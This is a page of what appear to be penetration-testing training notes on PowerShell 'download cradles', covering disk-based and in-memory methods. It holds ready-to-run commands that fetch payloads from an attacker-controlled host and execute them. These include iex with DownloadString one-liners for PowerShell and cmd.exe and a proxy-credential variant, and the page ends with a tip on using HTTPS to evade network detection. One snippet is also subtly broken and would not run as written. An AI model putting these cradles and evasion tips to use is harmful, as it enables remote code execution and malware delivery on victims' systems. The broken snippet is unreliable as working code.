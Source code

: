 There are two primary ways we can download and execute code in regard to strictly using PowerShell:
1. An executable or script is *downloaded to disk*, which can then be executed by PowerShell itself, or by using other executables on the system to execute our code. `Net.WebClient DownloadFile` method.
2. An executable or script is *downloaded and run within the PowerShell process memory* and never touches the disk (preferred method). `Net.WebClient DownloadString` method.

These two methods (in-memory and disk-based) are usually accomplished using what are commonly referred to as "Download Cradles", and use the `System.Net.WebClient` .Net System class.
The `New-Object` cmdlet allows us to create instances (objects) of either .Net or COM objects.

#### Net.WebClient DownloadFile

**Net.WebClient DownloadFile** method (disk-based).

Although noisy and not recommended if trying to remain stealthy, it's still sometimes a handy method to quickly download a file to the target system.

Executing the file once it's on our target system can be accomplished using the call operator (`&`) and variable we created for the payload (`$local_file`):
```
$downloader = New-Object System.Net.WebClient
$payload = "http://<AttackerIP>/payload.exe"
$local_file = "C:\programdata\payload.exe"
$downloader.DownloadFile($payload, $local_file)
& $local_file ←
```

It should also be noted that the `Net.WebClient` class methods can be configured to use the systems' proxy and default credentials with the following commands:
```
$downloader = New-Object System.Net.WebClient
$payload = http://<AttackerIP>/script.ps1
$cmd = $downloader.DownloadFile($payload)
$proxy = [Net.WebRequest]::GetSystemWebProxy() ←
$proxy.Credentials = [Net.CredentialCache]::DefaultCredentials ←
$downloader.Proxy = $proxy ←
iex $cmd
```

#### Net.WebClient DownloadString

**Net.WebClient DownloadString** method (in-memory).

Example:
```
iex (New-Object Net.Webclient).DownloadString("http://<AttackerIP>/script.ps1")
```
We can run the same command from a standard Windows command prompt ("cmd.exe"):
```
powershell.exe iex (New-Object Net.Webclient).DownloadString('http://<AttackerIP>/script.ps1')
```
Note the difference between the use of single and double quotes.

**Evasion Tips**.

It should be noted that where possible when hosting your remote PowerShell script, to have an *SSL certificate* configured on the attacker machine. This helps in evading over-the-wire heuristics as our traffic will go over HTTPS.
